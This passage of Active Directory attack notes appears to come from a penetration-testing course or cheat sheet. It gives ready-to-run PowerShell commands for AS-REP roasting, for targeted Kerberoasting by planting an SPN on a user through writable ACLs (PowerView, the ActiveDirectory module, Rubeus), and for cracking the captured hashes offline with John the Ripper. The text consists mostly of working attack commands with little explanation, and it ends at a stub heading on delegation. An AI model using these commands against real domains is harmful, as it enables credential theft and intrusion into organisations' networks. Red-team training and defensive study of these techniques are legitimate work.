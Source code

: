 **Request encrypted AS-REP for offline brute-force**

Let's use ASREPRoast:
```powershell
Get-ASREPHash -UserName VPN1user -Verbose
```

To enumerate all users with Kerberos preauth disabled and request a hash:
```powershell
Invoke-ASREPRoast -Verbose
```

We can use John The Ripper to brute-force the hashes offline:
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```


## Targeted Kerberoasting - Set SPN

- With enough rights (**GenericAll/GenericWrite**), a target user's SPN can be set to anything (unique in the domain)
- We can then request TGS without special privileges. The TGS can then be **Kerberoasted**.

Let's enumerate the permissions for RDPUsers on ACLs using PowerView:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Using Powerview, see if the user already has a SPN:
```powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname
```

Using ActiveDirectory module:
```powershell
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

Set a SPN for the user (must be unique for the domain)
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```

Using ActiveDirectory module:
```powershell
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
```

Kerberoast the user:
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```


# Kerberos Delegation

Only way to double hoping is:
```
- Explicit Credentials
- CredSSP
- Delegation
```
